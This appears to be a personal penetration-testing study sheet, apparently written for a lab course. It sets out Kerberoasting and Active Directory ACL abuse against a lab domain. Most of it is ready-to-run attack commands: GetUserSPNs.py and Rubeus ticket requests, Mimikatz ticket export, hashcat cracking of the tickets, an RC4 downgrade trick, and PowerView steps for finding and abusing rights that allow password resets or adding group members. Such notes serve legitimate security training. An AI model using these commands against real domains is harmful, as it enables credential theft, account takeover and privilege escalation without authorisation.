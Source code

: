 ## Kerberosting from Linux
## Kerberoasting with GetUserSPNs.py
Listing SPN Accounts with GetUserSPNs.py
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS Tickets
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```
Requesting a Single TGS ticket
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
Saving the TGS Ticket to an Output File
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Cracking the Ticket Offline with Hashcat
```
 hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

## Kerberoasting from Windows
### Manual method
#### Enumerating SPNs with setspn.exe
```
setspn.exe -Q */*
```
Targeting a single user. These tickets will be loaded into memory and can be extracted by using mimikatz.
```
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
Retrieve all tickets using setspn.exe
```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Extracting tickets from memory with Mimikatz
```
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```
The base64 output can be taken and decoded to obtain the kirbi file. This kirbi file needs to be converted by using kirbi2john and hashcrack can be used to crack it.
```
echo "<base64 blob>" |  tr -d \\n
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```
### Automated Tools - Powerview
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
for specific user
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
exporting all tickets to a CSV file
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
### Rubeus
accounts with RC4 encryption are easy to crack
```
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
specific user
```
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
Checking with PowerView, we can see that the msDS-SupportedEncryptionTypes attribute is set to 0. The chart here tells us that a decimal value of 0 means that a specific encryption type is not defined and set to the default of RC4_HMAC_MD5.
If we check this with PowerView, we'll see that the msDS-SupportedEncryptionTypes attribute is set to 24, meaning that AES 128/256 encryption types are the only ones supported.
```
 Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
hashcat code for aes
```
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
/tgtdeleg flag can be used to downgrade encryption to RC4. Only works on server 2016 and older.


![image](https://github.com/Kript0r3x/CPTS/assets/65650002/e8cf8acc-d7b1-4e10-8b70-d0d5f8003528)

ForceChangePassword abused with Set-DomainUserPassword
Add Members abused with Add-DomainGroupMember
GenericAll abused with Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite abused with Set-DomainObject
WriteOwner abused with Set-DomainObjectOwner
WriteDACL abused with Add-DomainObjectACL
AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
Addself abused with Add-DomainGroupMember

- ForceChangePassword - gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).
- GenericWrite - gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.
- AddSelf - shows security groups that a user can add themselves to.
- GenericAll - this grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.

## Enumerating ACLs with PowerView
```
 Find-InterestingDomainAcl
```
```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
### Performing a Reverse Search & Mapping to a GUID Value
```
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
### Using the -ResolveGUIDs Flag
```
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
### Creating a List of Domain Users
```
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
### A useful for loop
```
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
keep on enumerate the rights and depending on it look for the domain groups, nested groups and their permissions
### finding the nested group
```
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```

ACLs can also be enumerated easily by using bloodhoud. Look for **outbound control rights** it will give us lot of information.
